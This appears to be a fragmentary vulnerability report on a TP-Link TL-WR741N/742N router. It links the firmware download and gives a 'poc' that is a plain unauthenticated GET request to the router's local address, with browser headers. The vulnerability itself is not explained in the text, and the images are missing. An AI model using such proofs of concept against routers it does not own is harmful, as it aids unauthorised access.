 we can get
firmware in [TL-WR741N _TL-WR742N V1/V2/V3_130415标准版 - TP-LINK 服务支持](https://service.tp-link.com.cn/detail_download_1131.html)

![](1.png)



Recurring vulnerabilities and POC

haven’t logged in

![](2.png)

this is poc

GET http://192.168.1.1/

Host: 192.168.1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101
Firefox/73.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0, no-cache
